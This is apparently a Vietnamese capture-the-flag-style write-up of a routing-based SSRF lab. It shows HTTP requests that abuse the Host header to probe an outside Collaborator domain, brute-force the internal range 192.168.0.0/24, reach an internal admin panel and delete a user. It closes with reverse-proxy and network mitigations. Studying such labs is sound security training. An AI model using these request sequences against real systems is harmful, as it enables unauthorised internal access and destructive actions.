










## Thông tin bài Lab
* **Tên bài Lab**: Routing-based SSRF
* **Chuyên đề**: HTTP Host Header attacks / Routing-based SSRF
* **Mức độ**: Practitioner
* **Mục tiêu**: Khai thác Routing-based SSRF qua Host header để quét dải mạng nội bộ `192.168.0.0/24`, truy cập trang quản trị nội bộ và xóa tài khoản `carlos`.

---

## 1. Kiến thức nền tảng

Khác với SSRF truyền thống vốn bắt nguồn từ các tham số URL ở tầng mã nguồn ứng dụng, Routing-based SSRF khai thác trực tiếp cơ chế chuyển tiếp gói tin của các thiết bị mạng trung gian như Reverse Proxy, Load Balancer hoặc API Gateway.

### 1.1. Vị trí đặc quyền của Reverse Proxy và Load Balancer

Trong kiến trúc mạng đám mây hiện đại, Reverse Proxy và Load Balancer nắm giữ vị trí đặc quyền: tiếp nhận lưu lượng truy cập trực tiếp từ Internet, đồng thời kết nối trực tiếp vào toàn bộ mạng riêng nội bộ. Khi client gửi HTTP Request, thành phần trung gian này có nhiệm vụ phân tích gói tin và định tuyến đến cụm máy chủ xử lý tương ứng.

### 1.2. Cơ chế Virtual Hosting và kỹ thuật vét cạn máy chủ ảo

Doanh nghiệp thường cấu hình một máy chủ vật lý lưu trữ đồng thời cả website công khai lẫn các trang quản trị nội bộ. Các dịch vụ nội bộ thường được gán tên miền riêng nhưng chỉ phân giải ra IP riêng hoặc không có bản ghi DNS công khai. Hệ thống dựa vào giá trị chuỗi của trường Host header để điều phối truy cập. Kẻ tấn công có thể gửi gói tin đến IP công khai và thực hiện vét cạn tên miền phụ qua Host header để chạm đến các dịch vụ ẩn này.

### 1.3. Định dạng dải mạng CIDR trong khai thác SSRF

Không gian mạng riêng thường được phân bổ theo các dải tiêu chuẩn RFC 1918. Ký hiệu CIDR xác định số lượng bit mạng được cố định:
- **10.0.0.0/8:** Cố định 8 bit đầu, bao gồm toàn bộ địa chỉ từ `10.0.0.0` đến `10.255.255.255`.
- **192.168.0.0/16:** Cố định 16 bit đầu, bao gồm các địa chỉ từ `192.168.0.0` đến `192.168.255.255`.
- **192.168.0.0/24:** Cố định 24 bit đầu (3 octet đầu), chỉ biến thiên octet cuối cùng từ 0 đến 255. Đây chính là phạm vi quét thực nghiệm trong bài lab.

---

## 2. Mô hình tấn công

### 2.1. Phân tích nguyên nhân và điều kiện phát sinh lỗ hổng

- **Cấu hình định tuyến động nguy hiểm:** Reverse Proxy chuyển tiếp request dựa trực tiếp vào giá trị chuỗi của Host header do client truyền lên mà không qua bộ lọc kiểm tra tên miền hợp lệ.
- **Thiếu phân đoạn mạng:** Hệ thống không thiết lập tường lửa nội bộ để ngăn chặn Reverse Proxy gửi yêu cầu kết nối đến các dải mạng quản trị nhạy cảm.
- **Tin tưởng mù quáng lưu lượng từ Proxy:** Máy chủ quản trị nội bộ thấy request bắt nguồn từ IP nội bộ của Proxy nên tự động cấp quyền truy cập mà không kiểm tra xác thực người dùng.

### 2.2. Sơ đồ luồng dữ liệu tấn công

```text
[ Attacker từ Internet ]
       │
       │  Gửi Request đến IP Public:
       │  GET / HTTP/2
       │  Host: 192.168.0.x           <── Chỉ định IP máy chủ nội bộ
       ▼
[ Reverse Proxy / Load Balancer ]
       │
       │  Đọc Host header: "192.168.0.x"
       │  Tự động khởi tạo kết nối TCP và forward request vào mạng LAN
       ▼
[ Mạng nội bộ 192.168.0.0/24 ]
       │
       ├──► 192.168.0.1  ──► Không phản hồi (504 Gateway Timeout)
       ├──► ...
       └──► 192.168.0.112 ──► Máy chủ Admin nội bộ phản hồi (302 Found / 200 OK)
                                      │
[ Reverse Proxy ] ◄───────────────────┘
       │
       ▼
[ Chuyển tiếp phản hồi Admin Panel về cho Attacker ]
```

---

## 3. Khai thác lỗ hổng

Quy trình thực nghiệm tấn công được triển khai qua 5 bước chi tiết:

### Bước 1: Xác nhận hành vi định tuyến qua Burp Collaborator

Khởi tạo một tên miền kiểm thử từ Burp Collaborator: `7hpz51ithjgd7mbgpuhqwc0lhcn4buzj.oastify.com`. Trong Burp Suite Repeater, gửi request với header Host trỏ về tên miền Collaborator:

```http
GET / HTTP/2
Host: 7hpz51ithjgd7mbgpuhqwc0lhcn4buzj.oastify.com
Cookie: session=tDnRXon8pzm7t3zttvHoERcp6qxtJ72u; ...
```

Máy chủ phản hồi mã HTTP/2 200 OK chứa thông tin máy chủ Burp Collaborator:



Kiểm tra tab Burp Collaborator, hệ thống ghi nhận các tương tác DNS và HTTP request gửi đến từ địa chỉ IP của máy chủ mục tiêu. Điều này xác nhận Reverse Proxy có hành vi phân giải tên miền và định tuyến lưu lượng tùy ý theo giá trị của Host header.



---

### Bước 2: Quét vét cạn dải mạng nội bộ bằng Burp Intruder

Chuyển request sang tab Burp Intruder. Thiết lập vị trí payload tại octet cuối cùng của địa chỉ IP nội bộ `192.168.0.0/24`:

```http
GET / HTTP/2
Host: 192.168.0.§0§
Cookie: session=tDnRXon8pzm7t3zttvHoERcp6qxtJ72u; ...
```

Lưu ý quan trọng: Bỏ chọn tùy chọn **Update Host header to match target** trong cấu hình Target để giữ nguyên giá trị Host tùy biến. Cấu hình Payload dạng Numbers từ 0 đến 255 với bước nhảy 1:



Khởi chạy tấn công. Đa số các yêu cầu đều phản hồi lỗi 504 Gateway Timeout do không có máy chủ hoạt động. Riêng payload `112` phản hồi mã `HTTP/2 302 Found` với tiêu đề chuyển hướng `Location: /admin`. Máy chủ nội bộ mục tiêu được xác định chính xác tại địa chỉ `192.168.0.112`.



---

### Bước 3: Truy cập giao diện quản trị nội bộ

Gửi request `GET /admin HTTP/2` với `Host: 192.168.0.112` trong Repeater. Hệ thống phản hồi mã `HTTP/2 200 OK` mở ra toàn bộ giao diện quản trị nội bộ:



---

### Bước 4: Phân tích cơ chế bảo vệ CSRF và biểu mẫu xóa người dùng

Kiểm tra mã nguồn HTML của trang quản trị, xác định biểu mẫu xóa tài khoản người dùng:

```html
<form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
    <input required type="hidden" name="csrf" value="mBEQtb7lLp0Pv708A9j3WRG8h2CWzZa6">
    <label>Username</label>
    <input required type='text' name='username'>
    <button class='button' type='submit'>Delete user</button>
</form>
```



Thử nghiệm gửi nhanh bằng phương thức `GET /admin/delete?username=carlos` bị từ chối với mã lỗi `HTTP/2 400 Bad Request` cùng thông báo: `"Missing parameter 'csrf'"`. Điều này khẳng định chức năng xóa bắt buộc phải gửi theo phương thức POST kèm token CSRF hợp lệ.



Kiểm tra tính hợp lệ của token CSRF và phiên đăng nhập:



---

### Bước 5: Thực thi lệnh xóa tài khoản carlos và hoàn thành bài lab

Soạn request POST hoàn chỉnh gửi đến máy chủ quản trị nội bộ `192.168.0.112`:

```http
POST /admin/delete HTTP/2
Host: 192.168.0.112
Cookie: session=tDnRXon8pzm7t3zttvHoERcp6qxtJ72u; ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

csrf=mBEQtb7lLp0Pv708A9j3WRG8h2CWzZa6&username=carlos
```

Máy chủ xử lý thành công và phản hồi mã `HTTP/2 302 Found` chuyển hướng về trang chủ. Tài khoản carlos đã bị xóa hoàn toàn khỏi hệ thống.



Kiểm tra lại giao diện bài lab trên trình duyệt, thông báo giải quyết bài lab thành công xuất hiện.



---

## 4. Biện pháp khắc phục

### 4.1. Cấu hình an toàn tại Reverse Proxy và Load Balancer

- **Cố định địa chỉ Upstream tĩnh:** Tuyệt đối không sử dụng giá trị chuỗi từ Host header để định tuyến động gói tin (ví dụ cấu hình nguy hiểm `proxy_pass http://$http_host`). Máy chủ chuyển tiếp phải được chỉ định tường minh theo nhóm upstream cố định.
- **Thiết lập Whitelist tên miền:** Reverse Proxy phải kiểm tra trường Host header và từ chối ngay lập tức (`400 Bad Request`) đối với các request chứa địa chỉ IP, tên miền lạ hoặc không nằm trong danh sách tên miền chính thức của dịch vụ.
- **Chuẩn hóa cấu hình Nginx:** Sử dụng server block mặc định để từ chối các yêu cầu không xác định tên miền đích:

```nginx
server {
    listen 80 default_server;
    listen 443 ssl default_server;
    server_name _;
    return 444; # Đóng kết nối không phản hồi
}
```

### 4.2. Bảo vệ ở tầng Mạng và Hạ tầng

- **Phân đoạn mạng nghiêm ngặt:** Đặt Reverse Proxy tại vùng DMZ. Thiết lập quy tắc tường lửa cấm Reverse Proxy khởi tạo các kết nối đến các dải mạng quản trị nội bộ hoặc các endpoint nhạy cảm như Cloud Metadata (`169.254.169.254`).
- **Xác thực nội bộ đa lớp:** Các giao diện quản trị nội bộ phải yêu cầu xác thực phiên đăng nhập độc lập (mTLS, SSO, xác thực đa yếu tố), không được tin tưởng mặc định lưu lượng chỉ vì nó xuất phát từ IP của Reverse Proxy.
